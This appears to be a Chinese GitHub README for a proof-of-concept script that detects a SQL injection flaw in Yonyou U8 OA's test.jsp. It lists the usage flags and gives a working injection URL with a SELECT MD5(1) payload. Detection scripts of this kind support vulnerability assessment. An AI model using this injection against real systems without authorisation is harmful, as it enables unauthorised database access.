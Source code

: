 # U8detectPoc_Sql

对于用友 U8 OA test.jsp文件存在 SQL注入漏洞,进行脚本化检测POC


![image](https://user-images.githubusercontent.com/103556327/192997805-6d6bab8a-8640-4c45-9e78-deedaa85478e.png)

```
-h / --help使用帮助参数
```


![image](https://user-images.githubusercontent.com/103556327/192997926-5757abd1-4dd2-41ed-9c50-47d069f281fd.png)

```
-u 输入url网站地址直接进行检测是否存在漏洞
```

# poc:

```
http://target/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))

```
![4e950ce3adb881a6d25cb46f3decaa4](https://user-images.githubusercontent.com/103556327/192998187-93f2f586-e153-4235-a13f-2f4d39427df0.jpg)


### via:PeiQi
